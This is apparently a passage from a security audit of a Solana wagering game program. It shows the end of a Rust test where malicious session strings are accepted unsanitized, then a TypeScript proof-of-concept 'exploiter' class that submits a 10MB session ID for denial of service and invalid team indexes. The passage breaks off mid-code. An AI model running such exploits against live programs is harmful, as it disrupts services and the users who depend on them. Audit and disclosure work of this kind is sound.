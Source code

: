 ```rust
        for malicious_string in malicious_strings {
            let ctx = create_test_context();

            let result = create_game_session_handler(
                ctx,
                malicious_string.to_string(), // ❌ No sanitization
                1000,
                GameMode::WinnerTakesAllFiveVsFive
            );

            // Malicious strings accepted without sanitization
            assert!(result.is_ok());
        }
    }
}
```

### Real-World Attack Implementation
```typescript
class InputValidationExploiter {
    async exploitSessionIdOverflow(): Promise<void> {
        // 1. Create extremely large session ID to cause DoS
        const massiveSessionId = "A".repeat(10_000_000); // 10MB string

        try {
            await this.wagerProgram.methods
                .createGameSession(
                    massiveSessionId, // ❌ No size validation
                    1000,
                    GameMode.WinnerTakesAllFiveVsFive
                )
                .accounts({
                    gameSession: this.getSessionPDA(massiveSessionId),
                    gameServer: this.attackerKeypair.publicKey,
                    systemProgram: SystemProgram.programId,
                })
                .signers([this.attackerKeypair])
                .rpc();

            console.log("Successfully created game with massive session ID");
        } catch (error) {
            console.log("DoS attack may have succeeded:", error);
        }
    }

    async exploitParameterBounds(): Promise<void> {
        // 2. Test various boundary condition attacks
        const boundaryTests = [
            { team: 255, description: "Maximum u8 team value" },
            { team: 2, description: "Invalid team index" },
            { team: 100, description: "Large invalid team" },
        ];

        for (const test of boundaryTests) {
            try {
                await this.wagerProgram.methods
                    .joinUser("test_session", test.team)
                    .accounts({
                        gameSession: this.getSessionPDA("test_session"),
                        user: this.attackerKeypair.publicKey,
                        userTokenAccount: this.attackerTokenAccount,
                        vault: this.getVaultPDA("test_session"),
                        tokenProgram: TOKEN_PROGRAM_ID,
```